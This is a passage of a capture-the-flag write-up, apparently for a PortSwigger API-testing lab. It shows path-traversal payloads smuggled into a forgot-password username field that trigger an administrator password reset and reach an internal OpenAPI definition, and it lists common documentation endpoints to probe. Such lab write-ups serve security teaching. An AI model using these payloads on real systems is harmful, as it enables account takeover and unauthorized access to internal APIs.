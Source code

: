 ## Exploitation

Armed with above information, we can try to **perform path traversal to reset password on account `administrator`**:

```http
csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2fadministrator
```

Which the server-side request may resulted in:

```http
GET /api/users/foobar/../administrator/email
```

And after path normalization, it should be resolved to this:

```http
GET /api/users/administrator/email
```

Let's try that!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510190443.png)

Nice! We can trigger a reset password on account `administrator` via path traversal!

**Now, what if I traverse back to the root of the path (`/`)?**
```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2f
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510191409.png)

Hmm... Looks like **it returned HTTP status 404 Not Found**.

Also, when the internal API accessed an invalid endpoint, it also said: `Please refer to the API definition`.

Ahh... **I wonder if there's any API documentation on the internal API server**...

**Here's some examples of possible API documentation endpoint:**
```
/api
/swagger/index.html
/openapi.json
```

After trying different endpoints, I found that **`/openapi.json` works**!

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2fopenapi.json%23
```

By doing so, the server-side request should be resulted in:
